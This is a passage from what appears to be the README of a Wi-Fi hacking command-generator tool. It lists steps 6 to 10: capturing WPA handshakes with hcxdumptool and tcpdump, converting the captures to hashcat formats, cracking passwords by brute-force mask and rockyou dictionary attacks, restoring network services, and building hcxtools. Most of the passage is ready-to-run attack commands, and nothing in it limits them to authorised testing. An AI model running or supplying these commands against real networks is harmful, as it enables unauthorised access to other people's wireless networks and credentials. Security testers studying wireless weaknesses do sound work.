 #### Step 6: Packet Capture Initialization
**Technical Description**: Deploy packet capture mechanisms using advanced wireless sniffing tools with BPF filtering.
```bash
sudo hcxdumptool -i [interface] -c [channel] --bpf=[session]_attack.bpf -w [session]_capture.pcapng
sudo tcpdump -U -s 0 -i [interface] -w [session]_capture.pcap -l -n -e -vv -r [session]_attack.bpf
```

#### Step 7: Hash Extraction
**Technical Description**: Convert captured wireless frames to hashcat-compatible formats for cryptographic analysis.
```bash
sudo hcxpcapngtool -o [session]_hash.hc22000 [session]_capture.pcapng    # WPA3/WPA2 format
sudo hcxpcaptool -z [session]_hash.16800 [session]_capture.pcapng        # Legacy WPA format
```

#### Step 8: Cryptographic Analysis
**Technical Description**: Execute hash cracking operations using GPU-accelerated password recovery techniques.
```bash
# Brute force attack with mask
hashcat -m 22000 [session]_hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d?d?d --force

# Dictionary attack
hashcat -m 16800 [session]_hash.16800 /usr/share/wordlists/rockyou.txt
```

#### Step 9: Service Restoration
**Technical Description**: Re-enable network management services to restore normal wireless functionality.
```bash
sudo systemctl start NetworkManager.service     # Restart network manager
sudo systemctl start wpa_supplicant.service    # Restart WPA supplicant
```

#### Step 10: Tool Maintenance
**Technical Description**: Automated installation and compilation of hcxtools suite for optimal compatibility.
```bash
sudo apt-get update
sudo apt-get install -y libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools && sudo make && sudo make install
```

## File Structure

```
wifi-hacking-command-generator/
├── main_v1.py           # Main application script
├── config.dist.json     # Template configuration
├── config.json          # Active configuration
├── new.json            # Session database
└── README.md           # This documentation
```
